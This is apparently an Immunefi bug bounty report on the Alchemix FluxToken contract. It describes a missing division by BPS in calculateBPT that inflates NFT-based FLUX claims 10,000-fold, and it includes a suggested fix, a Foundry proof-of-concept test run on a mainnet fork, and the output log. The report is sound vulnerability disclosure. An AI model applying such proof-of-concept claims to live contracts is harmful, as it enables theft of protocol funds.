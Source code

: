 
# `FluxToken.calculateBPT` uses wrong algorithm causing `FluxToken.nftClaim` revenue to be 10,000 times higher than expected

Submitted on May 17th 2024 at 19:31:09 UTC by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31380

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

The `FluxToken` contract allows users to mint some $FLUX at once using AlchemechNFT or AlEthNFT. The number of mint is calculated based on the `tokenData` of the NFT. However, `FluxToken.calculateBPT` does not divide by `BPS` resulting in the number of mint being 10000 times larger than expected.

## Vulnerability Details

Please look at the following code. The `getClaimableFlux` function is used to calculate the number of mint. It calls the `calculateBPT` function.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L215-L216
    function getClaimableFlux(uint256 _amount, address _nft) public view returns (uint256 claimableFlux) {
        uint256 bpt = calculateBPT(_amount);
```

Let's look at the `calculateBPT` function, which multiplies `_amount` by `bptMultiplier`.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L232-L234
    function calculateBPT(uint256 _amount) public view returns (uint256 bptOut) {
        bptOut = _amount * bptMultiplier;
    }
```

According to the comment of the `bptMultiplier` variable, it should represent `0.4%`. So, multiplied by `bptMultiplier` should be divided by `BPS (10000)`

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L43-L44
    /// @notice The ratio of FLUX patron NFT holders receive (.4%)
    uint256 public bptMultiplier = 40;
```

Note: The two divisions by `BPS` in the `getClaimableFlux` function correspond to the following variables, which have nothing to do with `bptMultiplier`.

- `fluxPerVe`: 5000 represents 50%
- `alchemechMultiplier`: 5 represents 0.05%

**Suggested fix**

```diff
    function calculateBPT(uint256 _amount) public view returns (uint256 bptOut) {
-       bptOut = _amount * bptMultiplier;
+       bptOut = _amount * bptMultiplier / BPS;
    }
```

## Impact Details

Users can get 10,000 times more $FLUX than expected

## References

None

## Proof of concept
The PoC patch

```diff
diff --git a/src/test/FluxToken.t.sol b/src/test/FluxToken.t.sol
index 22876a9..fb45d52 100644
--- a/src/test/FluxToken.t.sol
+++ b/src/test/FluxToken.t.sol
@@ -250,4 +250,18 @@ contract FluxTokenTest is BaseTest {
         assertEq(unclaimedFlux1End, 0, "should have no unclaimed flux");
         assertEq(unclaimedFlux2End, totalAmount, "should have all unclaimed flux");
     }
+
+    function testYttriumzzPocTemp() external {
+        uint256 patronNFTId = 4;
+        address patronNFTOwner = IAlEthNFT(patronNFT).ownerOf(patronNFTId);
+
+        console.log("tokenData of patronNFT: %s", IAlEthNFT(patronNFT).tokenData(patronNFTId));
+
+        uint256 fluxBalanceBefore = flux.balanceOf(patronNFTOwner);
+
+        hevm.prank(patronNFTOwner);
+        flux.nftClaim(patronNFT, patronNFTId);
+
+        console.log("Get $FLUX: %s", flux.balanceOf(patronNFTOwner) - fluxBalanceBefore);
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testYttriumzzPocTemp() (gas: 118155)
Logs:
  tokenData of patronNFT: 249991869582520600
  Get $FLUX: 7499756087469342000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 14.90ms (889.67µs CPU time)

Ran 1 test suite in 792.98ms (14.90ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

The `tokenData` of the NFT is `0.24999186958252062`, and the mint $FLUX is `7.499756087469342`.